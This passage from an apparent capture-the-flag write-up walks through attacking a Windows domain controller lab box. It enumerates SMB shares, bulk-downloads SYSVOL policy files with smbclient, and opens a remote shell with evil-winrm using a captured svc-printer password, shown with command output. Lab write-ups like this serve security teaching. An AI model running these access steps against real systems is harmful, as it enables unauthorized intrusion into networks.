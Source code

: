 Looking in the **NETLOGON** share doesn't show anything.

Checking out the **SYSVOL** share has the following:

`smbclient \\\\10.10.11.108\\SYSVOL -U svc-printer`

```
smb: \> dir
  .                                   D        0  Thu May 20 09:25:44 2021
  ..                                  D        0  Thu May 20 09:25:44 2021
  return.local                       Dr        0  Thu May 20 09:25:44 2021
```

Instead of digging through the directories on the server I'm just going to **mget** everything down and browse locally.

On the SMB server I use `prompt` and then 'recurse' and then `mget *`:

```
NT_STATUS_ACCESS_DENIED listing \return.local\DfsrPrivate\*
getting file \return.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 22 as return.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \return.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as return.local/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \return.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol of size 2788 as return.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol (34.5 KiloBytes/sec) (average 13.3 KiloBytes/sec)
getting file \return.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 1098 as return.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (17.0 KiloBytes/sec) (average 14.2 KiloBytes/sec)
getting file \return.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 4262 as return.local/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (51.4 KiloBytes/sec) (average 22.7 KiloBytes/sec)
```

I look through the files but don't find anything overly interesting.

<br>

## System Access

Let's see if we can utilize **evil-winrm** here:

`evil-winrm -i 10.10.11.108 -u svc-printer -p '<1edFg43012!!>'`

```
Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```
